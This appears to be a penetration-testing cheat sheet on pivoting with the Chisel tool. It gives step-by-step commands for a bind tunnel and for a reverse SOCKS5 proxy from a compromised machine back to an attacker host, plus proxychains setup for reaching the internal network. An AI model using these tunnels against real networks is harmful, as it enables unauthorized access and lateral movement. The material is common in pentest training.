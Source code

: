 ### Chisel Bind Tunneling
```
1. On the compromised machine, run the below command to setup a chisel server:
    ./chisel server -p <port_to_listen_on>

2. On the attacker machine, run the below command to connect to the compromised machine
   and bind a local tunnel port to the target IP and port:
    ./chisel client <listener_IP>:<listener_port> -b <bind_local_tunnel_port>:<target_IP>:<target_port>

3. On the attacker machine you can now interact with the target port by accessing 
   localhost on the port opened on the attacker machine

Example Commands:
    For this example, the attacker IP is 10.0.0.21
    and the compromised machine's IP is 10.0.0.42.

    1. (Compromised machine)
        ./chisel server -p 9000
    
    2. (Attacker machine)
        ./chisel client 10.0.0.42:9000 -b 9001:127.0.0.1:80
    
    3. (Attacker machine)
        Interact with port 80 on the compromised machine by accessing localhost:9001
        in a browser
```

Chisel also supports SOCKS proxying, allowing an attacker to add the IP and port to their
`proxychains.conf` file and use the `proxychains` command access hosts within the 
compromised network as if they were directly connected to the network.

### Chisel SOCKS5 Proxying
```
1. On the attacker machine, start the chisel server in SOCKS5 proxy mode:
    ./chisel server --reverse -p <port_to_listen_on>

2. On the compromised machine, connect back to the attacker machine and create a
   reverse SOCKS proxy:
    ./chisel client <listener_IP>:<listener_port> R:<proxy_port>:socks

3. On the attacker machine, add the SOCKS5 proxy to your 'proxychains.conf' file:
    socks5 127.0.0.1 <proxy_port>

4. Use the 'proxychains' command to route traffic through the SOCKS proxy to the
   compromised network.

Example Commands:
    For this example, the attacker IP is 10.0.0.21
    and the compromised machine's IP is 10.0.0.42.

    1. (Attacker machine)
        ./chisel server --reverse -p 9000

    2. (Compromised machine)
        ./chisel client 10.0.0.21:9000 R:9001:socks
    
    3. (Attacker machine)
        Add 'socks5 127.0.0.1 9001' to 'proxychains.conf'
    
    4. (Attacker machine)
        Use the 'proxychains' command to route your traffic through the proxy
```
